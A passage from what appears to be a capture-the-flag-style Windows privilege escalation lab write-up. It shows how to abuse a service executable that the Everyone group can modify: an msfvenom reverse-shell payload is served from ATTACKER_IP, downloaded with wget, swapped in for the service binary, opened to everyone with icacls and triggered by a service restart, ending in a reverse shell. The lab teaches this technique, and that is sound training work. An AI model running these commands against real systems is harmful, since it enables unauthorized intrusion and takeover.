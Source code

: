 Successfully processed 1 files; Failed processing 0 files
```
And here we have something interesting. The ```Everyone``` group has ```modify permissions (M)``` on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

Let's generate an exe-service payload using ```msfvenom``` and serve it through a ```python webserver```:

Kali Linux
```
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
```
```
user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
We can then pull the payload from Powershell with the following command:

Powershell
```
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```
Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:

Command Prompt
```
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```
We start a reverse listener on our attacker machine:

Kali Linux
```
user@attackerpc$ nc -lvp 4445
```
And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:

Command Prompt
```
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```
Note: PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.

As a result, you'll get a reverse shell with svcusr1 privileges:

Kali Linux
```
user@attackerpc$ nc -lvp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.